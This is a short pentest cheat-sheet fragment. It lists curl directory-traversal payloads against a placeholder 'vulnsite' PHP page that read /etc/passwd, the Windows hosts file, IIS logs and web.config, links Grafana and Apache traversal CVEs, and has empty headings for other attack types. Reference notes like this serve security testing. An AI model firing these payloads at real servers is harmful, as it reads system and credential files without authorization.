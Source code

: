 # Directory traversal

Example: `curl http://vulnsite/index.php?page=../../../../../../etc/passwd`
Windows (check both `/` and `\`):
```
curl http://vulnsite/index.php?page=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts
curl http://vulnsite/index.php?page=../../../../../../inetpub\logs\LogFiles\W3SVC1\
curl http://vulnsite/index.php?page=../../../../../../wwwroot\web.config
```

Grafana CVE: https://golangexample.com/cve-2021-43798-grafana-8-x-path-traversal-pre-auth/
Apache 2.4.49 CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

## File inclusion

## File upload

## Command injection


